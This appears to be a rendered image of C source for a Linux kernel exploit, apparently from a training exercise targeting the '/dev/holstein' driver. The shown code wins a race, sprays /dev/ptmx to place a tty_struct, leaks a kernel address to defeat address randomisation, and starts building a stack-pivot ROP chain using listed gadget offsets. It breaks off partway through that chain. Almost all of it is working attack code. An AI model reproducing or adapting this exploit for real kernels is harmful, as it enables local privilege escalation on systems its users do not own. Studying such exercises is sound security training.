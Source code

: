 ```c


int main() {
    sem_init(&mutex, 0, 0);

    setup_iretq_context();

    pthread_t thr;
    pthread_create(&thr, NULL, reinterpret_cast<void *(*)(void *)>(worker_thread), NULL);
    int ptmx[0x100] = {0};
    char leak_buff[0x400] = {0};
    char dummy_buff[0x10];
    int fd;

    while (true) {
        if (!(fd = open("/dev/holstein", O_RDWR))) {
            printf("open main failed!");
            exit(1);
        }

        for (int i = 0; i < 0x100; ++i) {
            ptmx[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        }

        read(fd, leak_buff, sizeof(leak_buff));

        if (*(unsigned int *) leak_buff == 0x5401) {
            break;
        }

        for (int i = 0; i < 0x100; ++i) {
            close(ptmx[i]);
        }

        close(fd);
        sem_post(&mutex);
    }

    // Race won.

    printf("Race won, gbuf now points to a tty_struct\n");


    unsigned long leaked_addr = *(unsigned long *) &leak_buff[24];
    unsigned long leaked_addr_offset = 0xc39c60;
    unsigned long kernel_base = leaked_addr - leaked_addr_offset;

    unsigned long leak_tty_struct_obj_address = (*(unsigned long *) &leak_buff[0x70] - 0x70);

    printf("Leaked kernel base:%16lx\n", kernel_base);
    printf("Leaked tty_struct obj address:%16lx\n", leak_tty_struct_obj_address);

    unsigned long stack_pivot_stage_1_gadget_offset = 0x529205; // push rdi; add eax, 0x415bffbe; pop rsp; pop r13; pop rbp; ret;
    unsigned long stack_pivot_gadget_stage_1_address = kernel_base + stack_pivot_stage_1_gadget_offset;

    unsigned long stack_pivot_stage_2_gadget_offset = 0x2a14b9; // add rsp, 0x28; ret;
    unsigned long stack_pivot_gadget_stage_2_address = kernel_base + stack_pivot_stage_2_gadget_offset;
    *(unsigned long *) &leak_buff[2 *
                                  sizeof(void *)] = stack_pivot_gadget_stage_2_address; // one field before the fops pointer.
```